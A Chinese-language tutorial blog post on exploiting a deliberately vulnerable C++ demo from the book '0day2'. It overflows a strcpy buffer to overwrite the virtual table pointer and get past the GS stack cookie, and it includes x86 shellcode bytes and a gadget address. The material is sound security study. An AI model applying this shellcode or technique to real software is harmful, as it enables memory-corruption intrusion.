# Overrun virtual_func table

**Author：wnagzihxain
Mail：tudouboom@163.com**

这篇会写的很详细，因为我觉得调试这节有一种最开始学习二进制的感觉，刺激！！！！！！

《0day2》提供的代码是这样的



我们观察一下，然后给下个断点
``` 
// over_virtual.cpp : 定义控制台应用程序的入口点
//

#include "stdafx.h"
#include "string.h"

class GSVirtual {
	public:
		void gsv(char* src)
		{
			char buf[200];
			strcpy(buf, src);
			bar(); // virtual function call
		}
		virtual void  bar()
		{}
};

int main()
{
	GSVirtual test;
	__asm int 3
	test.gsv(
		"\x04\x2b\x99\x7C"
		"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
		"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
		"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
		"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
		"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
		"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
		"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
		"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
		"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
		"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
		"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90"
	);
	return 0;
}
``` 

VS的配置按照第一篇的配置就行了，然后生成后咱们在虚拟机里面运行，断下附加OD



可以看到，push操作是把字符串的指针压栈，在数据区跟随一下可以看出来，我们单步走，遇到下面那个call跟进去



我们跟进来后可以看到生成Security Cookie的代码段，然后往下找可以看到校验Security Cookie的代码段



好了看完了Security Cookie部分，咱们来看看执行虚函数的部分，我们从代码可以看出来，执行了strcpy之后，就是执行虚函数，所以我们来看看执行虚函数的代码段



关于利用虚函数我在第六章有调试过，但是我返回去看了看，好像写的不太好，细节没有写的很详细，所以看起来会有一些费劲，那么在这里就详细的记录一下

我们先把这个放下，找到第六章调试虚函数的代码，用VC编译就行了，同样在调用前下断点，然后附加上OD，注意观察寄存器的值



F8走



是不是没有看懂？

不急我们重新梳理一遍，来看一下代码，我们先不调试溢出什么的，我们就看虚函数是如何调用的？以及虚表指针到底放在哪里？

下面是我们要用到的代码，可以看到我把修改虚表指针的代码注释掉了，因为我们要是修改了虚表指针那么在调试的时候就会跳到shellcode

这里补充一下：

<a href="https://github.com/jayzeng/The-Art-Of-Programming-by-July/blob/master/ebook/zh/08.0.md" target="_blank">从头至尾漫谈虚函数</a>



OD附加上，来到虚函数指针的地址指向的地方，可以看到`0x004080C8`是虚表指针



然后我们跟着走



先把虚表指针的地址赋值给ECX，在数据区标注的地方就是虚表指针的地址

接着单步走



把虚表指针传给EAX，此时EAX存的是虚表指针`0x004080C8`，也就是说，`0x004080C8`这个地址开始存的是虚函数的指针，继续单步走



根据EAX处的值取出虚函数的地址`0x00401020`进行调用，这里是直接调用函数指针



大概是明白了吧？

我再来总结一下：先是获取虚表指针的地址，然后根据虚表指针的地址获取虚表指针，获取到虚表指针后再获取虚函数指针，最后调用虚函数指针就行了

画个示意图



继续解释：我们先获取某地址，这个地址存的是虚表指针的地址，我们可以看到这次虚表指针的地址是`0x0040BAA8`，然后我们根据虚表指针的地址去获取虚表指针，可以看到虚表指针是`0x004080C8`，然后根据虚表指针来找虚函数指针，虚函数指针是`0x00401020`

然后我们来看看最开始被我们丢在一边的程序 

我们重新载入给个特写



按照我们刚才的分析，把代码段复制下来解释一下
``` 
004012DD    8B85 24FFFFFF   mov     eax, dword ptr [ebp-DC];获取虚表指针的地址
004012E3    8B10            mov     edx, dword ptr [eax];获取虚表指针
004012E5    8B8D 24FFFFFF   mov     ecx, dword ptr [ebp-DC]
004012EB    8B02            mov     eax, dword ptr [edx];获取虚函数指针
004012ED    FFD0            call    eax;调用虚函数
```

那我们就走下来看看虚表指针在哪里

哎呀！！！！！！忘了这是溢出的代码了，不过没关系，不影响前面的分析，我们来修改一下代码先不要溢出，随意减小长度就行了，重新运行到这，可以看到此时的虚表指针是`0x00411A4C`



继续跟着走，找到虚函数指针，看寄存器EAX的值



虚函数指针是`0x00401300`，我们跳过去看看，这就是虚函数代码段



现在是完全的分析了一遍如何找到虚表指针的过程，以及各种细节，如果你还不是很懂，在纸上画一画就好了

我们来额外补充一点东西，我们写两个虚函数



可以在OD里面看到，这里是两处的虚函数调用



具体分析一下
```
004012DD    8B85 28FFFFFF   mov     eax, dword ptr [ebp-D8];获取虚表指针的地址
004012E3    8B10            mov     edx, dword ptr [eax];获取虚表指针
004012E5    8B8D 28FFFFFF   mov     ecx, dword ptr [ebp-D8]
004012EB    8B02            mov     eax, dword ptr [edx];获取虚函数的地址
004012ED    FFD0            call    eax;调用第一个虚函数
004012EF    8B8D 28FFFFFF   mov     ecx, dword ptr [ebp-D8]; 获取虚表指针的地址
004012F5    8B11            mov     edx, dword ptr [ecx]; 获取虚表指针
004012F7    8B8D 28FFFFFF   mov     ecx, dword ptr [ebp-D8];
004012FD    8B42 04         mov     eax, dword ptr [edx+4];获取虚函数的地址
00401300    FFD0            call    eax调用第二个虚函数
```

好了补充完了，现在开始分析如何通过覆盖虚函数的方法来突破GS

标注的地方很熟悉了



走完这一段，我们来观察一下栈的布局
``` 
0012FF5C   C09D019E  ?澙
0012FF60  /0012FF74  t.
0012FF64  |00401356  V@.  返回到 over_vir.00401356 来自 over_vir.00401260
0012FF68  |00411A38  8A.  ASCII "Hello World!"
0012FF6C  |00411A4C  LA.  over_vir.00411A4C
0012FF70  |C09D018A  ?澙
0012FF74  ]0012FFC0  ?
```

看的出来Security Cookie吧？

然后，看到了虚表指针了吗？`0x0012FF6C`是虚表指针的地址

那么我们攻击的思路就是，先覆盖虚表指针，因为我们是在函数里面调用虚函数，所以并不会因为retn而进行Cookie校验

那我们就开始来定位缓冲区的起始位置，直接走完strcpy的代码段，这里我没有进行优化所以有点太直观啦ヾ(≧O≦)〃嗷~



算出中间的间隔大小后，我们来填充看看



精准覆盖！！！！！！

好了现在把栈的布局搞清楚了，我们重新修改一下代码，将我们加上的一个虚函数去掉

顺便带上《0day2》里的shellcode，注意这里我们还没有确定各种地址，先来看看具体的情况，然后再根据系统来修改



这时候我们会遇到一个问题，我们执行虚函数会call eax，执行了之后我们是回不到shellcode的，怎么办？

那我们就来梳理一下我们利用的思路：首先我们溢出，覆盖掉虚表指针，然后执行虚函数，这时候先取出虚表指针，到虚表指针指向的地方取出虚函数指针，也就是说，我们直接覆盖的虚表指针那个位置存的是shellcode起始地址，这里要理解！！！！！！

《0day2》里面说实话我是没有看懂，自己捣鼓了很久，好了假设你已经看懂了上面的，放心吧后面还会详细解释的ヾ(^▽^*)))



看，标注出来的是虚表指针`0x00411A38`，当然这是我已经找好的，在你的电脑上还需要手动确定一下

然后我们call的时候会执行`0x7C992B11`，这个是怎么确定的呢？

这就需要来观察一下栈了



这是现在的栈顶，可以看到栈顶刚好是我们shellcode的起始地址，然后我们执行call的时候，会压入一个返回地址，也就是说，我们只要执行一个pop和retn，就可以跳到shellcode

我们F7单步走一下看看，这里我已经找好pop和retn了，所以直接能演示



看，我们在进入这个call的时候，堆栈压入了一个返回地址，按照上面的代码，一个pop把返回地址弹掉，然后retn到`0x0012FE94`，这个位置刚好是shellcode的起始位置，也就是说我们成功跳到了shellcode的空间了
来看看具体代码



《0day2》里面是通过结束符来修改最后两位，但是我这里的情况修改最后两位是不能实现的，所以具体情况还是要根据你的电脑进行修改

最后的效果



欢迎交流╭( ･ㅂ･)و